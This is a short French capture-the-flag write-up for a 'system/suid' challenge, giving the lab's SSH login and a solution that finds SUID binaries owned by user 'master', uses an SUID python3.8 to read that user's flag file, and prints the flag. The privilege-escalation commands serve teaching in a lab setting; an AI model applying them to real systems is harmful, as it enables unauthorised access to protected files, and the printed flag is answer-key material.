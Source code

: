 # To B, or ! to B

## Sujet :

> Votre client vous remercie pour votre travail et vous assure qu'il a fait les modifications nécessaires pour améliorer la sécurité de son serveur applicatif.
> 
> Prouvez-lui que ce n'est toujours pas suffisant.
>
> === Connexion SSH ===
> 
> Login : padawan
> 
> Mdp : padawan
> 
> Serveur : toBOrNot2B.phack.fr

Tags : `system` `suid` `easy`

## Solution :
A la vue des tags du challenge, on va rechercher les binaires qui ont le SUID bit pour l'utilisateur master.

```
$ find / -user master -perm -4000 -exec ls -la {} \;
-rwsr-xr-x    1 master   root         14048 Mar 15 12:52 /usr/bin/python3.8
...
```

Donc si on execute `python3.8`, on aura l'EUID (Effective User ID) de l'utilisateur master (101).
Ainsi on peut lire le flag.

```
$ python3.8
>>> open("/home/master/flag.txt", "r").read()
"PHACK{U_4r3_hiM_bu7_h3's_n07_U}\n"
```

`PHACK{U_4r3_hiM_bu7_h3's_n07_U}`